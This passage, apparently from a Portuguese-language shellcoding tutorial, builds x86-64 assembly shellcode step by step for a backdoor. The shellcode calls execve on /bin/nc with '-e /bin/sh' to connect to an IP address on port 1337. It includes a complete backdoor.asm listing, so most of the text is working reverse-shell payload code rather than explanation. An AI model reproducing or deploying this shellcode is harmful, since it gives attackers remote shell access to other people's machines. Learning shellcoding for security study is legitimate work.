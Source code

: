 {% highlight asm %}
; missão 05
jmp short ip
continuar:
pop 	r9
; missão 06
push	rdx  ;push NULL
push 	rcx  ;push address shellbin 'bin/sh'
push	rbx  ;push address argumento  '-e'
push	r10  ;push address da porta '1337'
push	r9   ;push address do 'ip'
push 	rdi  ;push address do '/bin/nc'
; missão 07
mov    	rsi,rsp
mov    	al,59 ; syscall 59 evecve()
syscall

; função do IP
ip:
	call  continuar  ; função  que organiza os argumento
	db "127.0.0.1" ;8 bytes
{% endhighlight %}

<p>Vamos para parte final  da nossa  missão, primeiro faço um pulo para a função do contém nosso endereço IP, local nesse caso jmp short ip, DB define 8 bytes, em seguida chamo a função continuar para passar os argumento da função execve() a ideia  primeiro puxamos o argumento NULL, depois endereço  da bin/sh , argumento -e , porta 1337 endereço IP, empurramos /binnc claro e por fim chamamos o lançador de míssil sys59. :D  vamos compilar e ver como ficou:</p>
{% highlight asm %}
---------------------------------------------------------
root@ChmoSec:~/Desktop/linux# cat backdoor.asm
BITS 64
xor    	rdx,rdx ; zerando rdx
mov 	rdi,0x636e2f6e69622fff ; string /bin/nc
shr	rdi,0x08
push 	rdi
mov 	rdi,rsp

mov	rcx,0x68732f6e69622fff ; string /bin/sh
shr	rcx,0x08
push 	rcx
mov	rcx,rsp

mov     rbx,0x652dffffffffffff ; argumento -e  
shr	rbx,0x30
push	rbx
mov	rbx,rsp

mov	r10,0x37333331ffffffff  ; porta do nc 1337
shr 	r10,0x20
push 	r10
mov	r10,rsp

jmp short ip ; chamando a função com IP
continuar:
pop 	r9

push	rdx  ;push NULL ; argumento nulll evecve()
push 	rcx  ;push address do 'bin/sh'
push	rbx  ;push address do argumento '-e'
push	r10  ;push address da porta '1337'
push	r9   ;push address do local 'ip'
push 	rdi  ;push address netcat  '/bin/nc'

mov    	rsi,rsp
mov    	al,59 ; sycall 59
syscall